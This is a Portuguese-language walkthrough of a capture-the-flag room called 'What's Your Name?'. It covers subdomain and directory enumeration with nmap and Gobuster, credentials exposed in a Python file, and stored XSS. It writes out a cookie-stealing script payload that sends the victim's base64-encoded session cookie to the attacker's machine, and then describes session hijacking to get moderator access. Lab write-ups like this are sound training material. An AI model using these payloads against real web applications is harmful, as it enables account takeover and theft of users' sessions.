

A segurança ofensiva é uma área fundamental para a proteção de sistemas e redes, e um dos primeiros passos em qualquer processo de pentest é a enumeração de subdomínios. Este processo ajuda a mapear a superfície de ataque de um alvo, permitindo que um atacante identifique quais subdomínios e serviços estão disponíveis. Na room "What’s Your Name?", abordamos técnicas de enumeração de subdomínios e exploração de vulnerabilidades em aplicações web.
Neste relatório, compartilho minha experiência ao resolver os desafios dessa room, detalhando os conceitos trabalhados, as ferramentas utilizadas e os passos dados para a descoberta das flags.
Ao longo do processo, a prática de técnicas de reconhecimento foi essencial, especialmente quando usamos ferramentas como o Gobuster e realizamos ataques de injeção de JavaScript.
Antes de iniciar a exploração, é comum configurar o ambiente de teste. No caso, o primeiro passo foi adicionar o IP da máquina alvo no arquivo /etc/hosts para garantir que conseguíssemos resolver o nome do host corretamente:
MACHINE_IP worldwap.thm
Uma vez que o ambiente foi configurado, a próxima etapa foi realizar a enumeração de portas abertas e serviços disponíveis na máquina alvo. É uma prática comum começar um pentest com o nmap. O comando executado foi:
nmap -sV -sC MACHINE_IP
A saída revelou que a porta 80 estava aberta, indicando a presença de um serviço web. A partir daqui, seguimos para a exploração dessa aplicação.

Ao acessar a aplicação através do navegador, encontramos uma página de registro simples:

Ao preencher as informações e clicar em Register aparece um alerta “Registration successful! Please login.” Ele apresenta um subdomínio, vamos adicionar ele no /etc/hosts para poder acessar
Após preencher o formulário de registro, o alerta “Registration successful! Please login.” informando que o cadastro foi realizado com sucesso e solicitando login.
Na nova página exibem um subdomínio (login.worldwap.thm).

Primeiramente devemos adicionar esse subdomínio no arquivo /etc/hosts para acessá-lo diretamente:

Ao acessar o subdomínio, a página está em branco, mas ao visualizar o código-fonte da página, encontramos uma referência a um arquivo chamado login.php:

A próxima etapa foi realizar uma enumeração de diretórios e arquivos para tentar identificar outras páginas ou recursos disponíveis. Para isso, utilizei o Gobuster, uma ferramenta de força bruta para buscar diretórios e arquivos em servidores web. O comando executado foi:
gobuster dir -u http://login.worldwap.thm/ -w /usr/share/wordlists/dirb/big.txt -x php,py,js -t 100

Um arquivo .py se destacou entre os resultados. Ao acessá-lo, encontramos credenciais de login para a aplicação.

Com as credenciais em mãos, é possivel fazer login em http://login.worldwap.thm/login.php.

Ao acessar, já encontramos a flag do Administrador (a segunda flag pedida na room, mas nesse caso a ordem das flags não importa).

Agora o objetivo é encontrar a flag do moderador.
Para isso, precisamos de um servidor HTTP ativo localmente usando o seguinte comando:
python3 -m http.serve
Tentei explorar um possível ataque de Cross-Site Scripting (XSS), injetando um script no campo "Email" da página de registro:
<script>fetch('http://IP_DO_KALI/');</script>

Porém, a conexão não foi estabelecida corretamente.
Então tentei novamente colocando no “Name”.

A conexão deve ser estabelecida desse modo.
Voltando a página de registro, coloquei em ambos “Email” e “Name” o seguinte script:
<script>fetch("http://IP_DO_KALI?cookie="+ btoa(document.cookie),{method: "GET"});</script>

Conexão permanece estabelecida e temos um cookie!

Decidi usar o CyberChef para decodificar o cookie em Base64 e obtive o PHPSESSID necessário para prosseguir

Voltando para a tela de login que somos redirecionados após o “Register”, acessei dev tools, Storage, Cookies.

Em seguida, alterei o Value pelo PHPSESSID do decode do CyberChef.

Recarregando e acessando novamente o http://worldwap.thm/public/html/, dessa vez vemos o dashboard.php.
E temos acesso de moderador!

E voltando ao http://login.worldwap.thm/profile.php (onde encontramos a flag de Admin) podemos encontrar a flag do moderador.

Essa experiência foi muito boa para aprofundar meus conhecimentos em técnicas de enumeração e exploração em ambientes web.